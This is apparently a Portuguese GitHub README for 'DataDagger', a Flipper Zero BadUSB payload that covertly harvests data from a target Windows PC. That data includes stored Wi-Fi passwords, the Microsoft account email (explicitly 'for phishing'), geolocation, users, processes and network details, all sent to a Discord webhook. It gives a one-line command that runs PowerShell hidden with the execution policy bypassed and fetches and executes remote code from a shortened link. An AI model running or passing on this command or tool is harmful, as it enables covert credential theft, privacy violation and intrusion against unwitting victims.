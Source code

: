 ![Logo](https://raw.githubusercontent.com/ClankPT/Flipper-Zero-BadUSB/main/Imagem/mini%20mini%20TH.png)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Descrição">Descrição</a></li>
    <li><a href="#Vamos Começar">Vamos Começar</a></li>
    <li><a href="#Compatibilidade">Compatibilidade</a></li>
    <li><a href="#Histórico de Versões">Histórico de Versões</a></li>
    <li><a href="#Contacto">Contacto</a></li>
    <li><a href="#Conhecimentos">Conhecimentos</a></li>
  </ol>
</details>

# DataDagger

Script de reconhecimento avançado a um computador alvo, capaz de mostrar muita informação sensível

## Descrição

Este programa foi desenvolvido para coletar o máximo de dados possível para fins de reconhecimento. Isso inclui

* Hosts versão do PowerShell (para saber quais comandos podem ser executados)
* Nome associado à conta da Microsoft
* Estejam eles no grupo Admin ou não
* O e-mail associado à conta da Microsoft (para possibilidades de phishing)
* A geolocalização (saber localização aproximada)
* Redes Wifi próximas (possível movimento lateral)
* Informações de rede (endereço IP local e público; endereço MAC; RDP ativado?)
* Perfis WLAN (lista de SSIDs e passwords armazenadas no PC)
* Interfaces de rede (com o que elas estão ligadas)
* Informações do sistema (fabricante, modelo, número de série, sistema operacional, CPU, RAM, BIOS da placa-mãe)
* Utilizadores locais (contas no sistema com nome de usuário, nome associado à conta microsoft e SID)
* Informações sobre os discos rígidos 
* Dispositivos COM e seriais ( dispositivo ligados ou emparelhados com o PC)
* Conexões TCP ativas (varredura de porta)
* Processos, serviços, software e drivers (o que está a ser executado no computador e  que podemos explorar? processos ativos/parados)
* Informações sobre as especifições sobre o PC
* Lista de programas do PC
* Tree (exploração de toda a tree do PC)
## Vamos Começar

### Compatibilidade

* Discord
* Windows 10,11

<p align="right">(<a href="#top">voltar</a>)</p>

### Execução
* Conectar ao dispositivo
* Esperar alguns segundos e verificar o Discord

`$dc` é a variável que guarda no webhook do discord 
```
powershell -w h -NoP -Ep Bypass $dc='';irm bit.ly/ClankPT | iex
```

<p align="right">(<a href="#top">voltar</a>)</p>

## Contribuição

* Clank

* Luís Lopes

* Tiago Casal

<p align="right">(<a href="#top">voltar</a>)</p>

## Histórico de Versões

* 0.1
    * Ainda em desenvolvimento ...

<p align="right">(<a href="#top">voltar</a>)</p>

<!-- CONTACT -->
## Contacto

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://discord.gg/4BURDrRMBZ](https://discord.gg/fGPTFMYrFe">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">voltar</a>)</p>
